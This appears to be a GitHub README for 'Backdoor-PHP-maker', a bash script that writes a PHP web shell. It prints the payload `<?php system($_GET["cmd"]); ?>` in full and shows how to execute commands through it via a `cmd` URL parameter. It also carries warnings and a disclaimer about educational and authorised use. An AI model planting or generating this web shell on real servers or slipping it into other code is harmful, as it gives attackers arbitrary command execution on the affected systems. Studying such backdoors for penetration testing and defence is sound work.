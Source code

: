 # Backdoor-PHP-maker

This is a simple bash script that creates a PHP file that allows remote execution of system commands. The generated PHP file contains a backdoor, which can be used to run arbitrary shell commands via a URL query parameter. 

**WARNING**: This script is potentially dangerous and should not be used in production environments or on unauthorized systems. It is provided for educational purposes only. Misuse of this script may be illegal and unethical.

## Features

- Prompts the user to input a filename.
- Creates a PHP file with the name specified by the user.
- The generated PHP file contains a remote command execution vulnerability, where an attacker can execute arbitrary system commands by providing a `cmd` parameter in the URL.

## How it works

1. The script prints a message indicating the creation of a backdoor.
2. The user is prompted to enter a filename for the PHP file to be created.
3. The PHP file is created with the following content:
    ```php
    <?php system($_GET["cmd"]); ?>
    ```
4. The script writes this content into a `.php` file with the name specified by the user.

### Example Usage

If you run the script and input `backdoor`, it will create a file called `backdoor.php` with the following content:
```php
<?php system($_GET["cmd"]); ?>
This file can be accessed via a URL like:

bash
Copy code
http://<yourserver>/backdoor.php?cmd=ls
This would execute the ls command on the server, displaying the contents of the current directory.

DISCLAIMER
This script is NOT intended for malicious use. Use this only in controlled environments, such as penetration testing or educational labs, where you have explicit permission to test for vulnerabilities. Unauthorized access to systems is illegal.

To use:
Clone this repository or copy the script to your local machine.
Run the script on a Linux/Unix-based server with bash and PHP installed.
Enter a filename when prompted. The script will create a .php file with the specified name.

